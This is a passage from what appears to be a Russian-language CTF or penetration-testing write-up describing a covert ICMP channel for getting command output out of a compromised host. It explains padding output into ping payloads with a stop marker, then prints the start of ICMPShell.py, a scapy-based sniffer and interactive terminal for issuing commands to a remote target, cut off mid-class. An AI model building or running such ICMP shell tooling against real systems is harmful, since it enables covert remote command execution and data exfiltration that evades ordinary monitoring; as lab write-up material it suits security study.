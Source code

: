 Мы получим такой результат `726f6f740a`, в котором всего 10 символов, что однозначно меньше, чем 32. В таком случае инструкция `fold -w 32` будет бесполезна, т. к. мы не добили вывод до нужной длины, и поэтому циклу `while` просто будет нечего читать, т. к. он не увидит символ перевода на новую строку (и поэтому будет считать, что вывод пустой).

Поэтому я добавляю "маркер останова" длиной в 16 ASCII-символов (16 байт, 32 hex-символа), ролью которого является добивание output'а команды с гарантированным переходом на новую строку, чтобы `while` прочитал и отправил даже самый короткий вывод.

### ICMPShell.py
Для автоматизации процесса выше напишем Python-скрипт с использованием модуля `scapy` для реализации сниффера ICMP-пакетов (в качестве альтернативы можно использовать модуль `impacket` как, например, [здесь](https://github.com/inquisb/icmpsh/blob/master/icmpsh_m.py "icmpsh/icmpsh_m.py at master · inquisb/icmpsh"), но мне scapy больше по душе):
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

# Usage: python3 ICMPShell.py <LHOST> <RHOST>

import cmd
import sys
from threading import Thread
from urllib.parse import quote_plus

import requests
from scapy.all import *

M = '\033[%s;35m'  # MAGENTA
Y = '\033[%s;33m'  # YELLOW
R = '\033[%s;31m'  # RED
S = '\033[0m'      # RESET

MARKER = 'STOP'


class ICMPSniffer(Thread):

	def __init__(self, iface='tun0'):
		super().__init__()
		self.iface = iface

	def run(self):
		sniff(iface=self.iface, filter='icmp[icmptype]==8', prn=self.process_icmp)

	def process_icmp(self, pkt):
		buf = pkt[ICMP].load[16:32].decode('utf-8')

		setmarker = set(MARKER)
		if set(buf[-4:]) == setmarker and set(buf) != setmarker:
			buf = buf[:buf.index(MARKER)]

		print(buf, end='', flush=True)


class Terminal(cmd.Cmd):

	prompt = f'{M%0}ICMPShell{S}> '

	def __init__(self, LHOST, RHOST, proxies=None):
		super().__init__()

		if proxies:
			self.proxies = {'http': proxies}
```

[//]: # (2019-08-20)